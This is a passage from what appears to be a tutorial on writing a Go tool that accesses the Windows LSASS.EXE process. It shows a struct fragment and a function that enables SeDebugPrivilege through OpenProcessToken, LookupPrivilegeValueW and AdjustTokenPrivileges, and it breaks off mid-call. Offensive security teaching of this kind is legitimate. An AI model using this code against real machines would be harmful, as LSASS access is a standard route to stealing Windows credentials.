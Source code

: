 ```go
  privilegeCount uint32
  privileges     [1]LuidAndAttributes
}
```

As I said before we need to have ***SeDebugPrivilege*** enabled in order to interact with LSASS.EXE process so let's code a function which enables it using some Windows calls like `LookupPrivilegeValueW` and `AdjustTokenPrivileges`

```go
...

func EnableSeDebugPrivilege() (error) {

  var privilege_name = "SeDebugPrivilege"
  var tokenAdjustPrivileges = 0x0020 // Windows values
  var SePrivilegeEnabled uint32 = 0x00000002
  var tokenQuery = 0x0008

  // Import DLLs
  kernel32 := windows.NewLazyDLL("kernel32.dll")
  advapi32 := windows.NewLazyDLL("advapi32.dll")

  // Resolve API calls
  GetCurrentProcess := kernel32.NewProc("GetCurrentProcess")
  GetLastError := kernel32.NewProc("GetLastError")
  OpenProcessToken := advapi32.NewProc("OpenProcessToken")
  LookupPrivilegeValue := advapi32.NewProc("LookupPrivilegeValueW")
  AdjustTokenPrivileges := advapi32.NewProc("AdjustTokenPrivileges")

  // Get current process handle
  currentProc, _, _ := GetCurrentProcess.Call()

  var hToken uintptr
  // Get token from process
  result, _, err := OpenProcessToken.Call(
    currentProc,
    uintptr(tokenAdjustPrivileges) | uintptr(tokenQuery),
    uintptr(unsafe.Pointer(&hToken)),
  )

  if result != 1 { // Handle error
    return err
  }

  var tkp TokenPrivileges
  // Get token privileges values
  result, _, err = LookupPrivilegeValue.Call(
    uintptr(0),
    uintptr(unsafe.Pointer(syscall.StringToUTF16Ptr(privilege_name))),
    uintptr(unsafe.Pointer(&(tkp.privileges[0].luid))),
  )

  if result != 1 { // Handle error
    return err
  }

  // Modify with custom values
  tkp.privilegeCount = 1
  tkp.privileges[0].attributes = SePrivilegeEnabled

  // Finally overwrite token privs
  result, _, err = AdjustTokenPrivileges.Call(
    hToken,
```